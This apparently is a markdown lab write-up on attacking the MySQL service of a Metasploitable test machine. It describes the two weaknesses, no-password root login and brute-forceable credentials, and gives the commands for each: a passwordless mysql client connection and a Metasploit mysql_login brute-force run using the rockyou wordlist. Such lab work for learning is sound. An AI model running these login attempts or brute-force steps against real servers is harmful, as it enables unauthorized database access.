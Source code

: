 ### Identifying Vulnerabilites or Weakness
1. **Login allowed without Password** On target system this service is misconfigured to allowed login with just username and without password. We can simply use **mysql client** to connect to this misconfigured database server when we get a username.
2. **Bruteforcing Attack** As this service requires authentication to connect the mysql server running on the target, we can perform bruteforcing attack to guess the username and password using tool like hydra or metasploit and gained access to the databases and tables.
### Exploitation
As we had metasploit module which tries to connect with different default usernames, to check if there is 'login allowed without password' may we get something

So we simply tries to connect using the mysql client of kali
```
#since the mysql server running on the target metasploitable is old and don't support ssl certification, so set the variable to false
mysql -u root -h 192.168.1.103 --ssl=FALSE
```
![](../images/connecting_to_mysql_using_mysql_module.png)
Here we got connected to the mysql server without password. Hurray...
##### Bruteforcing with metasploit or hydra
**Using Metasploit module
```
msfconsole -q
msf > search mysql_login
msf > use auxiliary/scanner/mysql/mysql_login
msf auxiliary(scanner/mysql/mysql_login) > show options
msf auxiliary(scanner/mysql/mysql_login) > set RHOST 192.168.1.103
msf auxiliary(scanner/mysql/mysql_login) > set USER_FILE /usr/share/seclist/Username/Username.txt
msf auxiliary(scanner/mysql/mysql_login) > set PASS_FILE /usr/share/seclist/Password/Leaked-Databases/rockyou.txt
msf auxiliary(scanner/mysql/mysql_login) > set Blank_password true
msf auxiliary(scanner/mysql/mysql_login) > run
```
